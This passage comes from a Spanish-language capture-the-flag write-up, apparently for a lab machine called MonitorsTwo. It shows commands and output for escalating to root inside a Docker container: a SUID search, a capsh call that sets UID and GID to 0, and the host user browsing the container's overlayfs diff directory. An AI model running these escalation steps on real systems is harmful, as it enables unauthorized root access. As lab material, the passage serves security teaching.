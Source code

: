 ```bash
www-data@50bca5e748b0:/$ find . -perm -4000 2>/dev/null
./usr/bin/gpasswd
./usr/bin/passwd
./usr/bin/chsh
./usr/bin/chfn
./usr/bin/newgrp
./sbin/capsh
./bin/mount
./bin/umount
./bin/su
```

Con tan solo ver los parámetros de este programa podemos escalar privilegios a root, por ejemplo para establecer nuestro UID y GID en 0:

```bash
www-data@50bca5e748b0:/$ /sbin/capsh --gid=0 --uid=0 --
root@50bca5e748b0:/#
```

Ahora veamos, esta vulnerabilidad consiste en permisos inseguros dados a los directorios en donde se almacenan los contenedores permitiendo así que podamos ejecutar programas que estén dentro del contenedor con sus capabilidades o permisos especiales puestos; podemos comprobarlo si intentamos movernos a uno de los directorios del overlayfs del contenedor, que puedes ver mirando los mounts dentro de este:

```bash
root@50bca5e748b0:/# mount
overlay on / type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/overlay2/l/Z4RNRWTZKMXNQJVSRJE4P2JYHH:/var/lib/docker/overlay2/l/CXAW6LQU6QOKNSSNURRN2X4JEH:/var/lib/docker/overlay2/l/YWNFANZGTHCUIML4WUIJ5XNBLJ:/var/lib/docker/overlay2/l/JWCZSRNDZSQFHPN75LVFZ7HI2O:/var/lib/docker/overlay2/l/DGNCSOTM6KEIXH4KZVTVQU2KC3:/var/lib/docker/overlay2/l/QHFZCDCLZ4G4OM2FLV6Y2O6WC6:/var/lib/docker/overlay2/l/K5DOR3JDWEJL62G4CATP62ONTO:/var/lib/docker/overlay2/l/FGHBJKAFBSAPJNSTCR6PFSQ7ER:/var/lib/docker/overlay2/l/PDO4KALS2ULFY6MGW73U6QRWSS:/var/lib/docker/overlay2/l/MGUNUZVTUDFYIRPLY5MR7KQ233:/var/lib/docker/overlay2/l/VNOOF2V3SPZEXZHUKR62IQBVM5:/var/lib/docker/overlay2/l/CDCPIX5CJTQCR4VYUUTK22RT7W:/var/lib/docker/overlay2/l/G4B75MXO7LXFSK4GCWDNLV6SAQ:/var/lib/docker/overlay2/l/FRHKWDF3YAXQ3LBLHIQGVNHGLF:/var/lib/docker/overlay2/l/ZDJ6SWVJF6EMHTTO3AHC3FH3LD:/var/lib/docker/overlay2/l/W2EMLMTMXN7ODPSLB2FTQFLWA3:/var/lib/docker/overlay2/l/QRABR2TMBNL577HC7DO7H2JRN2:/var/lib/docker/overlay2/l/7IGVGYP6R7SE3WFLYC3LOBPO4Z:/var/lib/docker/overlay2/l/67QPWIAFA4NXFNM6RN43EHUJ6Q,upperdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff,workdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/work,xino=off)
... [snip]
```

En la máquina host, si nos movemos al directorio `/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/` no habrá ninguna restricción, y si nos movemos a la carpeta `diff` que es donde Docker almacena los cambios a los archivos dentro del contenedor podremos ver su contenido, es algo que no deberíamos poder hacer...

```bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff$ ls -la
total 48
drwxr-xr-x 7 root root  4096 Mar 21 10:49 .
drwx-----x 5 root root  4096 Aug 29 22:40 ..
drwxr-xr-x 2 root root  4096 Mar 22 13:21 bin
drwx------ 2 root root  4096 Mar 21 10:50 root
drwxr-xr-x 3 root root  4096 Nov 15  2022 run
drwxrwxrwt 3 root root 12288 Aug 30 00:29 tmp
drwxr-xr-x 4 root root  4096 Nov 15  2022 var
```
